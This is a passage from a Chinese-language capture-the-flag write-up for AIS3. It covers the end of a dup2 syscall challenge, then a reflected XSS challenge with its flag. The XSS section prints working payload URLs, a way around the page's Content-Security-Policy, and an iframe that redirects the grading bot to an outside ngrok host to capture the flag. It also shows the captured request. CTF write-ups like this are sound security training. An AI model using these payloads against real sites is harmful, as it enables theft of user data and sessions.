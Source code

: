 也因此我們可以嘗試 dup2 stdout -> stderr 來獲得結果

```
Input: [rax] [rdi] [rsi] [rdx]
33 2 1 0
```

```  
AIS3{dupppppqqqqqub}
```

# web

## XSS (Solved)

一開始先找出有可能有 xss 注入點的位置，而在登入錯誤的時候，可以看到 URL 與彈跳訊息的內容有關，因此嘗試在這個部分注入。

由於該點會反射到 script 的部分，透過 `</script>` 強制閉合 javascript，並且 message 有限制長度，如下可以簡單測試 xss

```html
</script><img src/onerror=alert(1)>
```

```
http://quiz.ais3.org:8003/?type=error&message=%3C/script%3E%3Cimg%20src/onerror=alert(1)%3E
```

當中需要注意 Content-Security-Policy 的設定與 message 的長度限制

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self' 'unsafe-inline';">
```

稍微構造了一下，繞過了大小限制，現在幾乎可以任意輸入程式碼，接下來就構造 `&` 之後的程式碼

```
http://quiz.ais3.org:8003/?type=info&message=%3C/script%3E%3Csvg%20onload=write(decodeURI(document.URL))%3E%3C/svg%3E&<script>alert()</script>
```

獲取關於 request 的更多訊息

```html
<iframe src="http://quiz.ais3.org:8003/getflag" id="aa" onload="location.href ='http://8.tcp.ngrok.io:13515'"
  ></iframe>
```

```
GET / HTTP/1.1
Host: 8.tcp.ngrok.io:13515
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://xss-me/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

